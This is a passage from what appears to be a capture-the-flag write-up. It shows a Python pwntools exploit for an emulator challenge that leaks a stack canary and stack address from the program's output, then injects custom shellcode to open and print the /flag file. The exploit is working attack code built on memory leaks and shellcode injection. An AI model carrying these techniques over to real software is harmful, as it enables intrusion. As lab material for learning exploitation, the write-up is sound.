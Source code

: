 ```python


def leak_stack_content(p, count):
    # Get rid off junk
    p.readuntil(b'Please input your yancode:')  
    p.readuntil(b'Starting interpreter loop! Good luck!')
    p.readline()  

    while True:
        data = p.read(count)
        print(f'Data:{data}')
        if not data.startswith(b'[') and len(data) >= count:
            canary_bytes = data[0x18: 0x20]
            canary = struct.unpack('<Q', canary_bytes)[0]
            assert(canary & 0x00000000000000ff == 0)

            stack_leak_bytes = data[0x38: 0x40]
            stack_leak = struct.unpack('<Q', stack_leak_bytes)[0]
            break

    return stack_leak, canary

def exploit():
    p = process(BINARY)

    yan_shellcode_length = 0xff
    FLAG_PATH = b'/flag'
    flag_addr = 0
    
    yan_buf = b''
    yan_buf += read_stdin_to_memory(offset=0xff, count=yan_shellcode_length)
    with open(DEBUG_FILE_PATH, 'wb') as f:
        f.write(yan_buf)
    p.send(yan_buf)

    yan_shellcode = b'\x41' * (1 + len(yan_buf))  # Pad the existing instructions
    yan_shellcode += read_stdin_to_memory(offset=flag_addr, count=len(FLAG_PATH))
    yan_shellcode += open_file(file_addr=flag_addr)
    yan_shellcode += read_to_memory(fd=3, offset=0, count=0xff)
    yan_shellcode += write_stdout_from_memory(offset=0, count=0xff)
    yan_shellcode += b'\x42' * (yan_shellcode_length - len(yan_shellcode))
    p.send(yan_shellcode)
    p.send(FLAG_PATH)

    p.interactive()

exploit()
```

## Challenge 10
